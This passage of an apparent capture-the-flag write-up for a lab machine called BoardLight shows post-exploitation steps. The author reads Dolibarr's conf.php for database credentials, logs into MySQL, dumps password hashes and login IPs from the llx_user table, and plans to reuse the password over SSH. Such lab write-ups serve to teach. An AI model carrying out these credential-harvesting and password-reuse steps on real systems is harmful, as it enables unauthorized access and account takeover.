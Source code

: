 ```bash
www-data@boardlight:~/html/crm.board.htb$ cat htdocs/conf/conf.php
<truncated>
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
<truncated>
```

- Now, we have all the credentials to access the DB

```bash
www-data@boardlight:~/html/crm.board.htb$ mysql -u dolibarrowner -p
Enter Password: serverfun2$2023!!

mysql> 
```

- We already know the default db name, which is `dolibarr`
- We can connect to the db using `use dolibarr;`
- Then, we need to list all tables `show tables;`
- There are several tables, but we are interested in the `llx_user` I suppose.
- The `llx_user` table has a huge number of columns, most of them are Null
- Searching for those not-null, we are interested in

1. `admin`
2. `employee`
3. `pass_crypted`
4. `lastname`
5. `iplastlogin`
6. `ippreviouslogin`

```bash
mysql> select admin, employee, pass_crypted, lastname, iplastlogin, \
    ippreviouslogin from llx_user;

<TOO LONG OUTPUT>
```

- What we see are two hases

1. $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm -> SuperAdmin
2. $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96 -> admin

- and two IPs

1. LAST: 10.10.14.31, PREVIOUS: 10.10.14.41 -> SuperAdmin
2. LAST: 10.10.14.14, PREVIOUS: LAST -> admin

- Now, we need to discover who is larissa.
- It seems that none of them is Larissa, moreover, 10.10.14.41 should be the root user
- However, it seems that those hashes cannot be cracked.
- Last possibility is to SSH onto larissa given the `serverfun2$2023!!` password
